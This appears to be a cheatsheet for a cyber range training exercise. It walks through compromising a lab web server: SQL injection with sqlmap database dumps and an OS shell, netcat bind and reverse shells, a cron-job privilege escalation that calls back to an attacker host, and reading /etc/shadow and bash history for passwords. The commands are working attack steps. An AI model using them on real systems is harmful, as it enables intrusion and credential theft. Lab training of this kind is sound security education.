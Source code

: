 # CDIS Cyber Range | EU Cyber Attaché Exercise Cheatsheet

## 1) Identify the network services

```sh
nmap 10.0.3.193
```

## 2) Signup the ewebpage

- `http://10.0.3.193/php/inscription.php`

## 3) Identify an old version of a webpage

- `http://10.0.3.193/php/recherche_old.php` 
  
## 4) Misuse input validation vulnerability

- Enter a single quote (`'`)  into the text field and press the button
- Enter `' or 1=1#` into the text field and press the button

## 5) Retrieve arbitrary data from the database through SQL injection

- Copy the request below and paste it into a text file called `sqli.txt`
```sh
POST /php/recherche_old.php HTTP/1.1
Host: 10.0.3.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.0.3.193
Connection: close
Referer: http://10.0.3.193/php/recherche_old.php
Cookie: PHPSESSID=a62f5c5fio2i8l8spkas8mfjt6
Upgrade-Insecure-Requests: 1

recherche=emre&btnRechercher=Rechercher
```
- Copy the PHPSESSID from your browser and replace the value found in the `sqli.txt`

### 5.1 Execute `sqlmap` to identify database names

```sh
sqlmap -r sqli.txt --dbms=mysql --dbs 
```

### 5.2 Execute `sqlmap` to get the records found in the in the `cuiteur` database
```sh
sqlmap -r sqli.txt --dbms=mysql -D cuiteur --dump
```

## 6) Grant the initial shell access

### 6.1 Execute `sqlmap` to grant a SQL shell connection via SQL injection
```sh
sqlmap -r sqli.txt --dbms=mysql --os-shell
```

### 6.2 Execute OS commands through the SQL shell connection
```sh
whoami

hostname

pwd
```

### 6.3 Execute the following command to have a more convenient bind shell access
```sh
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh /tmp/pipe | nc -l 5555 > /tmp/pipe
```

### 6.4 Execute the following command to establish a `nc` bind connection (Switch to another terminal on your **Kali**)
```sh
nc 10.0.3.193 5555
```

### 6.5 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{
```

### 6.6 Identify a file with a promising filename
```sh
cd ..

ls

ls /var/www/upload

# Download the file from the web browser
http://10.0.3.193/upload/leaks.zip

unzip leaks.zip
```

### 6.7 Realize also that you have limited access
```sh
cat /etc/shadow
```

## 7) Identify a vulnerable configuration

### 7.1 Identify a world-writable directory
```sh
find / -writable -type f ! -path "/proc/*" ! -path "/sys/*" ! -path "/var/www/*" -exec ls -al {} \; 2>/dev/null
```

## 8) Escalate privileges to root

### 8.1 Examine the cron job with write access for everyone 
```sh
cd /etc/cron.hourly
cat cuiteur-cleaning
```
### 8.2 Open a listener on the **Kali** for a reverse shell connection with root privileges
```sh
sudo nc -nlvp 7777
``` 
### 8.3 Edit the cron job to have a reverse shell payload inside
```sh
echo "rm /tmp/pipe; mkfifo /tmp/pipe; nc 192.168.0.2 7777 0</tmp/pipe | /bin/sh >/tmp/pipe 2>&1" >> cuiteur-cleaning
```

### 8.4 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{

cat /etc/shadow
```

## 9) Identify a plaintext password in the bash history  

### 9.1 Perform post-exploitation activities
```sh
cat /root/.bash_history
```

### 9.2 Access the password-protected file
```sh
unzip -P "x5^#CNYK-Ng@MkHZR748" /home/emre/Downloads/leaks.zip
```
